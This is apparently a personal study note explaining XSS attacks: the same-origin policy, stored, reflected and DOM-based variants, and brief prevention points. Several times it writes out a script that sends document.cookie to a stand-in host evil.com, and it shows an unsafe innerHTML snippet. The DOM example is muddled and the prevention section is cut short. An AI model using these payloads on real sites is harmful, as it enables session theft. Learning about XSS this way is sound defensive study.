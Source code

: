 # XSS
XSS is a code injection attack which allows the attacker to execute malicious JAVASCRIPT in another user's browser

- JS is a client side scripting  language where code runs in your browser
- JS can be written inside HTML files inside HTML <script> tag
- Code within this <script> tags is executed in the context of the site

The web's security model is based on the same origin policy
Origin refers to the combination of 
- 1 The url scheme eg http or https
- 2 the hostname e.g google
- 3 the port number, typically 80 for public sites

- This basically means that code (HTML, CSS, JS) from http://somesite.com can only access the data of http://somesite.com
which means that in theory http://evil.com cannot access data from any site other than http://evil.com!
- The key thing here is how do we define code from http://somesite.com.
- This is HTML, CSS , JS which served from that server
- XSS is all about making the browser believe that malicious code came from a trusted site!

- JS runs in a very restricted environment on your browser and it has limited access to that user's operating system and files
- Access cookies which usually contain session information - this can be used to impersonate a user
- send XmlHTTP Requests with any content to any destination
- Edit the DOM of the current website to anything it wants
- JS in modern HTML5 browsers can access the user's geolocation, webcam, certianfiles on user computer
- Remember all this while you believe that you are ona trusted site
- combining the capability of JS and socail engineering hacker can steel a lot.

Phising can happen with this
- Insert a form into DOM of the trusted page and direct the results to be submitted to the attackers server

http://excess-xss.com - great resource to learn all about XSS

#### Example
- 3 actors in XSS attack = Attacker, website, victim
Attacker
- XSS attack targets website not a specific user
- Any user of that website can be compromised
- Name of attacker's website http://www.evil.com
- Attacker seeks: Access to victim's session ID sent via cookies
- script attacker wants to inject
```javascript
<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script>
```
- the cookie information from the current site is apssed as a query parameter to the malicious site.
- evil site can record this info and use it in further attacks.
Website
- name of trusted website: http://www.trustedsite.com
- the website is vulnerable to XSS attacks
Victim
- any user of the trusted website
- willing to handover sensitive information to the site
- so how can the attacker inject this script into a trusted website? = unvalidated and unsanitized user input

Scenario
- lets say the trusted site allows users to input comments - on anything
<input> name
<textbox> comment
 <button> submit
- the forum page on the trusted site displays all comments which have been added.
- whatever the users write the exact same comment without modifications is shown.
- Now attacker came to trusted site and he entered comment as below and hit submit button

```javascript
<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script>
```

- Now, this input is written directly to the websites comment database(user input has not cleaned in anyway (UNVALIDATED & UNSANITIZED USER INPUT).
- Now our victim visits the comments page of the trusted site
- Boom !!  so what just happened? = victims session ID has gone to evil.com

### Types of XSS
3 types
- 1 Persistent XSS
- 2 Reflected XSS
- 3 DOM Based XSS

##### Persistent XSS
- The malicious script originates from the website's database
- the injected <script> has been persisted amongst other valid data in the website's storage.
- The comment exaple we just saw is Persistent XSS

##### Reflected XSS
- the malicious script is part of the victims request to the website.
- the website then reflects this string back to victim.
lets say the website is a serach page which displays the search query to screen along with the results (like google search)
- eg: you searhced for cute puppies.
- The search term has been rendered on the screen
- ``` http://www.trustedsearch.com?query=cute puppies ```
- this would initiate the search on the servers and return results to the user
- Attacker sends a link chekout the cute puppies on this page where 'this' is hyperlinked to 
``` http://www.trustedsearch.com?query=<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script> 
```
- The victim's browser will execute that script and send his cookie info to attackers server
- there is some social engg aspect to get the victim to click on the URL - it may be sent via email or posted somewhere on social media.
- This can be further masked by using a URL shortening service such as Tiny URL or Bitly

##### DOMbased XSS
The malicious script is injected somehow into the site - exactly as in the other cases.
- The malicious script is not parsed by the website until it executes the legimate JS in the website
- this is subtle - the malicious user input is not directly rendered as HTMl
- instead the legitimate JS on the page - accesses the input and updates the page.
``` html
<html>
 <script>
  var hash = window.location.hash;
  document.getElementByID('display-id').innerHTML = hash;
 </script>
 <div id="display-id"></div>
</html>
```
- say the url is ``` http://www.trustedsite.com#boo ```
- the legitimate JS in the page is first executed and that updates the HTML to include the unvalidated and unsanitized input.
- so if it is
``` http://www.trustedsite.com#<script>
  var hash = window.location.hash;
  document.getElementByID('display-id').innerHTML = hash;
 </script>
 ```
- as web apps get more interactive and advanced client side scripting and DOM manipulation becomes more important.
- JS is used to manipulate the DOM anytime you want to change the apage contents without reloading the whole page
- this means that you need to be careful about XSS vulnerabilities in client side as well as server side code.
- so server side validation is just not enough = Client side vulnerability

### Preventing XSS

- user input is always asumed to be malicious! and it should be treated as such.
- user input should always be sanitized and validated before it is used.
- so, where is user input possible? = many many places
- enclosed as HTML content within HTML attributes
- `<input value="userInput">`
- `<img src="javascript:alert("XSS");">`
- `<table background="javacsript:alert("xss");">`


   
   
   




